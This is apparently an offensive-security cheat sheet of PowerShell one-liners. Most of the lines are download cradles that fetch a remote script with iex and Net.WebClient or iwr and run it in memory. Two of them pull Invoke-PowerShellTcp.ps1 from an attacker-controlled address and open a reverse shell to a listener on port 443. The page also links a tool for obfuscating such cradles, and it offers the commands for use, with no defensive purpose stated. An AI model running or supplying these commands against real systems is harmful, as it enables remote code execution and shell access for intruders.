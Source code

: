 ## Run a remotely hosted script into memory
`iex (iwr http://<webserver/script.ps1 -UseBasicParsing`

## Download file from remote host
`iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')`

 - Downloades InvokePowerShellTCP.ps1 and then runs it to connect to a listener on Attacker machine
`powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

`powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

## Resource:
https://github.com/danielbohannon/Invoke-CradleCrafter